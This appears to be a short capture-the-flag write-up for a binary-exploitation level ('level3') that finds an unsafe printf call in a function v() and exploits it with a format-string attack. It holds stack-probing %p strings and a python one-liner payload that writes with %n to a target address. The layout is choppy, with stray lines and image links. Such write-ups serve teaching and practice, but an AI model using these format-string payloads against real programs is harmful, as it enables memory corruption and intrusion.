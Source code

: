 objdump -t ./level3 | grep "m"

\x8c\x98\x04\x08 %4$p %519$p %520$p %521$p %522$p %523$p %524$p %525$p %526$p %527$p %528$p

AAAA %4$p %519$p %520$p %521$p %522$p %523$p %524$p %525$p %526$p %527$p %528$p

![](./resources/protections_level3.png)
```
lets check the binary using gdb
```
![](./resources/functions.png)
```
main makes a simple call to the function v() lets disassemble it
```
![](./resources/v_function.png)
```
the function v is calling printf without a format string which is unsafe since we can start popping items from stack till we find where our input will be stored then we can use the %n modifiers to modify the value at the defined element

python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'
```
